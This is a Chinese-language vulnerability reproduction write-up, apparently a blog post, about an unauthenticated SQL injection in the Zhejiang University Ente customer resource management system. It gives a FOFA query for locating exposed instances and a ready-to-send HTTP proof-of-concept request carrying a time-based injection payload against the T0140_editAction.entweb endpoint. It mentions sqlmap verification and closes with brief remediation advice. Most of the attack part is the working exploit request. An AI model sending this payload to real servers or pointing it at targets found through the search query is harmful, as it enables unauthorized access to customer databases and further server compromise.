



# 浙大恩特客户资源管理系统 SQL注入漏洞复现

### 0x01 产品简介

  浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "客户资源管理")系统是一款针对企业[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

 浙大恩特客户资源管理系统中T0140\_editAction.entweb接口处存在[SQL注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以利用该漏洞获取系统数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"



### 0x04 漏洞复现

PoC

```cobol
GET /entsoft/T0140_editAction.entweb;.js?method=getdocumentnumFlag&documentnum=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

延时注入



Sqlmap 验证



### 0x05 修复建议 

关闭互联网暴露面设置接口访问控制，对用户提交数据信息严格把关，多次筛选过滤  
对用户数据内容进行加密，采用SQL语句预编译和绑定变量
